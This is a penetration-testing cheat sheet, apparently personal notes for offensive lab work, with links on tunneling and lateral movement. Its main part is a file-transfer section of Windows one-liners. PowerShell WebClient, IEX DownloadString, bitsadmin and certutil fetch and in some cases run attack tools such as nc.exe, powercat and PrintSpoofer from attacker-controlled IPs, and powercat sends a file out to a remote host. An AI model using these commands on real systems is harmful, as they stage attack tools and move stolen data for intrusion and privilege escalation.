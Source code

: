 - [Tunneling and Port Forwarding - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)

#### Lateral movement

- [Derivative Local Admin. Intro | by Justin Warner | Medium](https://sixdub.medium.com/derivative-local-admin-cdd09445aac8)

#### File Transfer

##### PowerShell

Download file

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.186/nc.exe', 'C:\Windows\Tasks\nc.exe');
```

Download and execute

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.11.2.242/nc.exe')
```

PowerShell in cmd.exe

```cmd
:: download and save file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.156/nc.exe', 'C:\Windows\Tasks\nc.exe')"

:: download and output
powershell -c "(New-Object System.Net.WebClient).DownloadString('http://10.11.2.242/test.ps1')"
```

powercat

```powershell
# Load The Function From URL:
IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5/powercat.ps1')

# Send File:
powercat -c 10.1.1.1 -p 443 -i C:\inputfile

# Recieve File:
powercat -l -p 8000 -of C:\inputfile
```

##### cmd.exe

```cmd
cmd /c bitsadmin /transfer pwn /download http://192.168.119.156/nc.exe C:\Windows\Tasks\nc.exe
bitsadmin /transfer pwn /download http://192.168.119.156/nc.exe C:\Windows\Tasks\nc.exe
bitsadmin /transfer pwn /download http://10.11.2.242/PrintSpoofer64.exe C:\Windows\Tasks\PrintSpoofer64.exe
certutil.exe -urlcache -split -f "http://192.168.119.156/nc.exe" nc.exe
```
